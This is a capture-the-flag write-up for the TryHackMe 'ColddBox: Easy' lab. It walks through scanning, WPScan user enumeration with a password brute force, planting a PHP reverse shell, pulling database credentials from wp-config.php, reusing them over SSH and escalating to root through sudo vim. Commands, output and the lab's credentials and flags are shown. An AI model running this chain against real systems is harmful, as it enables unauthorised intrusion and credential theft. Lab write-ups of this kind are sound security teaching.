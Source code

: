 # ColddBox-WriteUp---TryHackMe
# ***Abdelhay Ferqass ***
**ColddBox: Easy**
*An easy level machine with multiple ways to escalate privileges. By Hixec.*

After running Nmap with the following command

`nmap -sC -sV -p- `

we get this:

`PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

ruuning ***Gobuster*** with this command :

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/FULL_PATH_TO_YOUR_WORDLIST`

will lead you into *`/wp-admin`*

let's run `WPScan` since it's a wordpress cms

`abdelhay@K4LI:/data/vpn$ wpscan --url http://MACHINE_IP/ -e u -P /usr/share/wordlists/rockyou.txt 

         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefar
[+] URL: http://10.10.124.265/ [10.10.124.265]
[+] Started: Thu Apr 29 12:24:10 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.124.265/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.10.124.265/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.124.265/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2022-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.124.265/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.124.265/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.124.265/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-05-09T00:00:00.000Z
 | Readme: http://10.10.124.265/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.10.124.265/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://MACHINE_IP/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <=======================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                       
^Cying philip / heyhey Time: 12:27:23 <                                     > (6254 / 57378791)  0.01%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output./ 57378791)  0.01%  ETA: ??:??:??
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up`

and just like this we got **c0ldd's password : 9876543210**

get a reverseshell in 

`https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

lunch a netcat listener with : 

`nc -nlvp 1234`

TCHA RAA!! we're www-data
stablish your shell with 

`python -c 'import pty; pty.spawn("/bin/bash")'`

`export TERM=xterm`

let's check a very sensitive php file with :

`www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');`

let's use those creds for ssh connection
`abdelhay@K4ALI:/data/vpn$ ssh c0ldd@10.10.124.265 -p 4512
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==`

lets run   `sudo -l`

and we got 

`   (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp`


u can just run 

`sudo /usr/bin/vim`

and wirte this in

`:!/bin/bash`

and Congrats!! we're root now.

`c0ldd@ColddBox-Easy:~$  sudo /usr/bin/vim

root@ColddBox-Easy:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
root@ColddBox-Easy:/root# 
`







